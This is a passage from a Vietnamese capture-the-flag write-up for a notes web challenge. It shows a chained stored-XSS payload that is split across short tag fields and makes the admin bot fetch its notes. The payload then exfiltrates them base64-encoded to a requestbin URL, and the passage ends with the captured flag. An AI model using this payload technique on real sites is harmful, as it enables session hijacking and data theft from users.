 ### Solution
- Như ở trên đã phân tích thì chỉ ở body mới bị replace các dấu có thể xss còn tag thì không => dựa vô tag để xây dựng payload xss.
- Nhưng tag không thể vượt 10 kí tự nên không thể viết payload xss 1 lần vô tag luôn mà chúng ta phải chain các tag lại với nhau thành 1 payload xss tưng ứng (mỗi lần gửi length tag sẽ nhỏ <= 10).
- flag ở body của admin nên chúng ta cần fetch tới `/api/notes/admin` để đọc flag.
- Cuối cùng gửi `/view/$user` cho bot visit.

### Payload
```js
{"body":"","tag":"<style a='"}
{"body":"","tag":"'onload='`"}
{"body":"`;fetch(`/api/notes/admin`).then(r=>r.text()).then(t=>fetch(`https://requestbin.net/r/e34po5o2?cc=`+btoa(t)));`","tag":"`;'/>"}
```
accout của mình đây là `taidh4` => gửi link cho bot là `https://notes.mc.ax/view/taidh4`
Flag -> `flag{w0w_4n07h3r_60lf1n6_ch4ll3n63}`

## Lời kết
Qua redpwn lần này mình học thêm được nhiều thứ cũng như có thể ôn luyện lại các kiến thức mình đã có. Cảm ơn các bạn đã đọc, hẹn các bạn ở các CTF tiếp theo :))